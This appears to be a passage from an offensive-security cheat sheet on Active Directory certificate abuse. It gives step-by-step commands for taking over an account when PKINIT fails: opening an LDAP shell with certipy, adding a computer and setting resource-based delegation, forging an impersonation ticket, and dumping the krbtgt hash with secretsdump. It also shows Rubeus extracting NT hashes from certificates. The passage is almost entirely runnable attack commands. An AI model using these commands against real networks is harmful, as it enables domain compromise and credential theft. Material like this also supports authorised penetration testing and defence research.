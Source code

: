 ### PKINIT ERROR

When the DC does not support **PKINIT** (the pre-authentication allowing to retrieve either TGT or NT Hash using certificate). You will get an error like the following in the tool's output.

```ps1
$ certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
[...]
KDC_ERROR_CLIENT_NOT_TRUSTED (Reserved for PKINIT)
```

There is still a way to use the certificate to takeover the account.

* Open an LDAP shell using the certificate

    ```ps1
    certipy auth -pfx target.pfx -debug -username username -domain domain.local -dns-tcp -dc-ip 10.10.10.10 -ldap-shell
    ```

* Add a computer for RBCD

    ```ps1
    impacket-addcomputer -dc-ip 10.10.10.10 DOMAIN.LOCAL/User:P@ssw0rd -computer-name "NEWCOMPUTER" -computer-pass "P@ssw0rd123*"
    ```

* Set the RBCD

    ```ps1
    set_rbcd 'TARGET$' 'NEWCOMPUTER$'
    ```

* Request a ticket with impersonation

    ```ps1
    impacket-getST -spn 'cifs/target.domain.local' -impersonate 'target$' -dc-ip 10.10.10.10 'DOMAIN.LOCAL/NEWCOMPUTER$:P@ssw0rd123*'
    ```

* Use the ticket

    ```ps1
    export KRB5CCNAME=DC$.ccache
    impacket-secretsdump.py 'target$'@target.domain.local -k -no-pass -dc-ip 10.10.10.10 -just-dc-user 'krbtgt'
    ```

## UnPAC The Hash

Using the **UnPAC The Hash** method, you can retrieve the NT Hash for an User via its certificate.

* Windows

    ```ps1
    # Request a ticket using a certificate and use /getcredentials to retrieve the NT hash in the PAC.
    Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```
